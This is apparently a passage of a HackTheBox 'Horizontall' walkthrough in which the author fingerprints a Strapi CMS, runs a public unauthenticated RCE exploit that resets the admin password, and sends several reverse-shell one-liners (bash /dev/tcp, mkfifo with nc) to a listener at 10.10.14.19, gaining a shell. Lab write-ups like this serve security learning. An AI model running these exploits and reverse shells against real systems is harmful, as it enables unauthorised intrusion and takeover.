```bash
api-prod                [Status: 200, Size: 413, Words: 76, Lines: 20, Duration: 57ms]
:: Progress: [114441/114441] :: Job [1/1] :: 2020 req/sec :: Duration: [0:01:02] :: Errors: 0 ::
```

http://api-prod.horizontall.htb/admin/strapiVersion
-->
3.0.0-beta.17.4

### CVE : Strapi 3.0.0-beta.17.4

```bash
┌──(kali㉿kali)-[~/htb/Horizontall]
└─$ searchsploit strapi 3.0.0-beta.17.4      
-------------------------------------------
 Exploit Title              |  Path
-------------------------------------------
Strapi CMS 3.0.0-beta.17.4 - Remote Code Execution (RCE) (Unauthenticated)  | multiple/webapps/50239.py
Strapi CMS 3.0.0-beta.17.4 - Set Password (Unauthenticated) (Metasploit)    | nodejs/webapps/50716.rb
-------------------------------------------
Shellcodes: No Results
```

### Strapi RCE

```bash
┌──(kali㉿kali)-[~/htb/Horizontall]
└─$ python3 50239.py http://api-prod.horizontall.htb
[+] Checking Strapi CMS Version running
[+] Seems like the exploit will work!!!
[+] Executing exploit


[+] Password reset was successfully
[+] Your email is: admin@horizontall.htb
[+] Your new credentials are: admin:SuperStrongPassword1
[+] Your authenticated JSON Web Token: eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJpZCI6MywiaXNBZG1pbiI6dHJ1ZSwiaWF0IjoxNzQxMjcyNTQ0LCJleHAiOjE3NDM4NjQ1NDR9.VKjJDQK6JqpNUo7Zsg5plpM2HHmdxLyTboI9kDnixHk

$> bash -i >& /dev/tcp/10.10.14.19/1337 0>&1
[+] Triggering Remote code executin
[*] Rember this is a blind RCE don't expect to see output
{"statusCode":400,"error":"Bad Request","message":[{"messages":[{"id":"An error occurred"}]}]}
$> bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F10.10.14.19%2F1337%200%3E%261
[+] Triggering Remote code executin
[*] Rember this is a blind RCE don't expect to see output
{"statusCode":400,"error":"Bad Request","message":[{"messages":[{"id":"An error occurred"}]}]}
$> rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|bash -i 2>&1|nc 10.10.14.19 1337 >/tmp/f
[+] Triggering Remote code executin
[*] Rember this is a blind RCE don't expect to see output

----------------------------------------------------

┌──(kali㉿kali)-[~]
└─$ nc -lnvp 1337                 
listening on [any] 1337 ...
connect to [10.10.14.19] from (UNKNOWN) [10.10.11.105] 43406
bash: cannot set terminal process group (1988): Inappropriate ioctl for device
bash: no job control in this shell
strapi@horizontall:~/myapi$ whoami 
whoami
strapi
```
